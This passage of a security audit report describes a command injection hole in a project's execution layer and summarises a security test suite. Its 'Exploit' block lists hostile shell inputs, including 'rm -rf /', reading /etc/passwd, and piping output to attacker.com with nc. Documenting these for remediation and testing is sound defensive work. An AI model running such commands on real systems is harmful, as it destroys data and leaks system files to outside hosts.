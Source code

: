 
### 🔥 VULNERABILITY #2: Command Injection
**File**: Execution layer (not implemented)
**CVSS**: 8.8 (High)
**Status**: ❌ **NO PROTECTION**

**Exploit**:
```bash
# All of these are ACCEPTED with no validation
ls; rm -rf /
cat file && whoami
echo test || cat /etc/passwd
ls $(whoami)
cat `whoami`
ls | nc attacker.com 1337
```

**Impact**:
- ✅ Execute arbitrary commands
- ✅ Chain multiple commands
- ✅ Establish reverse shells
- ✅ Exfiltrate data
- ✅ Privilege escalation

**Fix Available**: ✅ YES (see `command-validator-reference.rs`)
**Remediation Time**: 4 hours
**Test**: Security tests pass but note validation is missing

---

## Deliverables

### 1. Comprehensive Security Test Suite ✅
**File**: `tests/security/input_validation_exploit_test.rs`
**Lines**: 500+
**Test Cases**: 13 exploit scenarios

```
✅ 12 tests PASSED (security controls working)
❌ 1 test FAILED (path traversal vulnerable)
⚠️ 6 tests highlight missing validation
```

**Coverage**:
- Path traversal attacks (relative and absolute)
- Command injection vectors
- Command substitution attacks
- Environment variable injection
- Null byte injection
- Unicode bypass attempts
- Message schema validation
- XSS injection vectors
- ANSI escape code handling
- DoS attacks (large input, flooding)
- Malformed message handling
